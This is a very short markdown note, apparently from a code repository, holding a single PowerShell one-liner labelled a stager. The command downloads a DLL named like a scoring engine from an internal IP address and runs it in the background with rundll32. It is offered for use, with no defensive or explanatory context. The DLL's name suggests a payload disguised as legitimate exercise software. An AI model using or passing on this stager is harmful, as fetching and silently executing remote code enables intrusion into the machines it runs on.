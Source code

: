 # STuff


## Oneliner Stager run hosted .DLL in background:
```
mkdir C:\Temp -ErrorAction SilentlyContinue; Invoke-WebRequest -Uri 'http://10.20.X.X:8081/ScoringEngine_V2.1.3.dll' -OutFile 'C:\Temp\ScoringEngine_V2.1.3.dll'; rundll32 C:\Temp\ScoringEngine_V2.1.3.dll, Start

```